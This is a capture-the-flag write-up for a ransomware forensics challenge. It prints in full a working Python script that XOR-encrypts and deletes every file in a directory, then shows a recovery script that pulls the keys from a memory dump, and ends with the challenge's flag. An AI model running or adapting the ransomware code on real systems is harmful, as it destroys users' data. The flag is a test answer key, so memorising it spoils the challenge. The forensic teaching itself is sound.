



## Syndiware  



### Challenge Description

```
The Krampus Syndicate has never been subtle, but their newest initiative, codenamed Syndiware, might be their boldest misstep yet. Designed as a "consumer-friendly malware suite," Syndiware appears to target the youngest and most gullible users on the network: interns, seasonal hires, and anyone who believes free virtual currency generators are safe to run.

One such recruit learned this the hard way. Minutes after launching a suspicious executable, his entire workstation transformed into a theater of chaos: missing files, corrupted data structures, and a ransom note full of melodramatic threats. The intern claims he only clicked "Run Anyway" once. (The security logs suggest otherwise.)

What the Syndicate didn't expect is that this early build of Syndiware still has its rough edges and bugs. Somewhere in those remnants lies something important... something the Syndicate didn't intend for anyone to recover.

Follow the traces of the intrusion, work out the Syndicate’s techniques, and reveal the concealed Syndiware relic they attempted to hide.
```

### Writeup  

In the challenge dist, we are given the ransomware `FreeRobux.py`, a memory dump `ransomware.DMP` and the encrypted files.  



`FreeRobux.py` encrypts all files in the current directory by generating a random 32-byte key and XOR-ing the file contents with the key. It then stores the filenames and their corresponding encryption keys in memory.  

It uses `VirtualAlloc` to allocate memory for the filename-key pairs, and adds the marker `\xAA\xBB\xCC\xDD` to the start of the memory.  

```python
import ctypes,os,sys,time
k32=ctypes.windll.kernel32
k32.VirtualAlloc.restype=ctypes.c_void_p
k32.VirtualAlloc.argtypes=[ctypes.c_void_p,ctypes.c_size_t,ctypes.c_ulong,ctypes.c_ulong]
m,r,p=0x1000,0x2000,0x04
s_name="FreeRobux.py"
k_size=32
f_size=60
marker=b'\xAA\xBB\xCC\xDD'
def x(d,k):
    if not k:return b''
    o=bytearray()
    kl=len(k)
    for i,b in enumerate(d):o.append(b^k[i%kl])
    return bytes(o)
def note():
    ...
def run():
    f_list=[f for f in os.listdir('.') if os.path.isfile(os.path.join('.',f)) and f!=s_name and not f.endswith('.enc')]
    if not f_list:return
    e_size=f_size+k_size+len(marker)
    t_size=4+(len(f_list)*e_size)
    m_ptr=k32.VirtualAlloc(None,t_size,m|r,p)
    if not m_ptr:sys.exit(1)
    c_off=0
    for f_name in f_list:
        try:
            k=os.urandom(k_size)
            f_bytes=f_name.encode('utf-8')[:f_size].ljust(f_size,b'\x00')
            blob=f_bytes+k+marker
            buff=(ctypes.c_char*len(blob)).from_buffer_copy(blob)
            ctypes.memmove(m_ptr+c_off,buff,len(blob))
            c_off+=e_size
            with open(f_name,"rb") as f_in:p_text=f_in.read()
            c_text=x(p_text,k)
            with open(f_name+".enc","wb") as f_out:f_out.write(c_text)
            os.remove(f_name)
        except:continue
    os.system('cls' if os.name=='nt' else 'clear')
    print(note())
    try:
        while True:time.sleep(3600)
    except KeyboardInterrupt:sys.exit(0)
if __name__=="__main__":
    run()
```

Since we have the memory dump, we can write a script to retrieve the files and their encryption keys to decrypted the affected files.  

```python
import os

ENC = "encrypted_files"
OUT = "decrypted"

def xor_decrypt(data, key):
    output = bytearray()
    key_len = len(key)
    for i, byte in enumerate(data):
        output.append(byte ^ key[i % key_len])
    return bytes(output)

def parse_memory_dump(dump_file):
    with open(dump_file, 'rb') as f:
        dump_data = f.read()
    
    marker = b'\xAA\xBB\xCC\xDD'
    results = []
    
    i = 0
    while i < len(dump_data) - 4:
        if dump_data[i : i + 4] == marker:
            
            key_start = i - 32
            if key_start >= 0:
                key = dump_data[key_start:i]
                
                filename_start = key_start - 60
                if filename_start >= 0:
                    filename_bytes = dump_data[filename_start:key_start]
                    
                    filename = filename_bytes.rstrip(b'\x00').decode('utf-8', errors='ignore')
                    
                    if filename and '.' in filename and len(filename) > 1:
                        results.append((filename, key))
                        print(f"Found: {filename}")
        i += 1
    
    return results

def decrypt_files(file_key_pairs):
    for original_filename, key in file_key_pairs:
        encrypted_file = f'{ENC}/{original_filename}.enc'
        
        with open(encrypted_file, 'rb') as f:
            encrypted_data = f.read()
        
        decrypted_data = xor_decrypt(encrypted_data, key)

        if not os.path.isdir(OUT):
            os.makedirs(OUT)
        
        with open(f'{OUT}/{original_filename}', 'wb') as f:
            f.write(decrypted_data)
        
        print(f"Decrypted: {original_filename}")


file_key_pairs = parse_memory_dump('ransomware.dmp')    
decrypt_files(file_key_pairs)
```

Running the script will recover all `3` encrypted files.  


`Elf41's Diary.pdf` contains only the digits `4` and `1`. Since this is supposed to be a diary, the text could be encrypted. Since each number is `8` characters long, this could be binary.  


Converting every `4` to `0` and binary-decoding the diary contents does indeed reveal readable text.  


`Elf67's Diary.pdf` is similar, except that it contains only `6` and `7`. We can convert the digits to `0` and `1` respectively, then binary-decode it again.  

Doing so will reveal the contents of "1984" by jojorwell, with the flag embedded inside.  



Flag: `csd{73rr1bl3_R4ns0m3w3r3_4l50_67_15_d34d}`